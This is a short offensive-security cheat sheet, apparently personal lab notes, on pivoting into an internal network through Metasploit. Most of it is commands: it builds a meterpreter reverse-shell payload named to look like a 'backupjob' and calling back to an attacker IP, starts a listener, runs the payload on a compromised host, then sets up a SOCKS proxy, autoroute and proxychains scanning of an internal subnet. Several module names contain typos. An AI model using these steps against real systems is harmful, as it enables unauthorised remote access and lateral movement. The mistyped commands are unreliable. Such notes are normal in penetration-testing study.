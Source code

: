-- -
Pivot through meterpreter **not** SSH.
### Create Payload
Make a meterpreter payload that will be executed on pivot host
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=9001 -f elf -o backupjob
```
Then, [[Dark Arts I/File Transfer/~Home|File Transfer]] payload to pivot host
### Start Listener
```bash
msfconsole
use muli/handler
set lhost 0.0.0.0
set lport 9001
set payload linux/x64/meterpreter/reverse_tcp
run
```
### Run payload
First, [[Dark Arts I/File Transfer/~Home|File Transfer]] payload to pivot host
```bash
chmod +x backupjob
./backupjob
```
### Setup MSF SOCKS Proxy
```bash
# setup
use auxiliary/server/socks_proxy
set srvport 9050
set srvhost 0.0.0.0
set version 4a
run

# confirm proxy server is running
jobs

# make sure one of the following is at the end of /etc/proxychains.conf
socks4 127.0.0.1 9050
socks5 127.0.0.1 9050

# Create routes with autoroute, either will work
use post/mulit/manage/autoroute
set session 1
set subnet 172.16.5.0
run

# alternatively, from meterpreter shell, run:
run autoroute -s 172.16.5.0/23

# confirm routes were set, from meterpreter shell:
run autorun -p
```
### Use proxychains
You can now use proxychains to send your traffic through the meterpreter session
```bash
sudo proxychains nmap 172.16.5.19 -p 3389 -sT -v -Pn
```